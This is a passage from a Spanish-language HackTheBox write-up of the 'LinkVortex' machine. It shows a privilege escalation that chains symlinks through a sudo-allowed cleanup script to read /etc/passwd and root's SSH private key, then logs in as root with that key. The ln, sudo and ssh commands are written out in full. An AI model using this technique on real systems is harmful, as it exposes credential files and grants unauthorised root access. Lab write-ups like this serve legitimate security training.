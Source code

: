 Y que nuestro **link conductor** se llame `falso.png` y apunte a `verdadero.png` (nuestro **link objetivo):

```bas
ln -s /tmp/.sisisi/verdadero.png /tmp/.sisisi/falso.png
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/linkvortex/htb638-bash-ssh-bob-lsLa-links.png" style="width: 100%;"/>

Entonces, si hacemos `cat falso.png`, siguiendo toda la cadena, llegaríamos a `/etc/passwd`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/linkvortex/htb638-bash-ssh-bob-cat-falsoLinksPasswd.png" style="width: 100%;"/>

```bash
$ /usr/bin/readlink falso.png 
/tmp/.sisisi/verdadero.png
```

Ejecutemos esta vainaaaaa:

```bash
sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh falso.png
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/linkvortex/htb638-bash-ssh-bob-sudo-done-etcPasswd.png" style="width: 100%;"/>

EEEEeeeseklfjakljeiopq1jiop1iop4jjfsdaf, tamos!

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/linkvortex/htb638-google-gif-madness-complete.gif" style="width: 50%;"/>

...

Entre los archivos útiles que podemos buscar, está la llave privada (si es que existe) del usuario `root`, esto para conectarnos por `SSH` sin usar una contraseña.

* [How to ssh to remote server using a private key?](https://unix.stackexchange.com/questions/23291/how-to-ssh-to-remote-server-using-a-private-key)

Veamos:

```bash
ln -s /root/.ssh/id_rsa /tmp/.sisisi/verdadero.png
ln -s /tmp/.sisisi/verdadero.png /tmp/.sisisi/falso.png
sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh falso.png
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/linkvortex/htb638-bash-ssh-bob-sudo-done-rootSshIdrsa.png" style="width: 100%;"/>

¡Existe! Así que tomemos ese contenido, creemos un archivo en nuestra máquina, peguemos el contenido y démosle los permisos necesarios para poder ejecutar `SSH`:

```bash
chmod 600 root.id_rsa
ssh root@linkvortex.htb -i root.id_rsa
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/linkvortex/htb638-bash-ssh-root.png" style="width: 100%;"/>
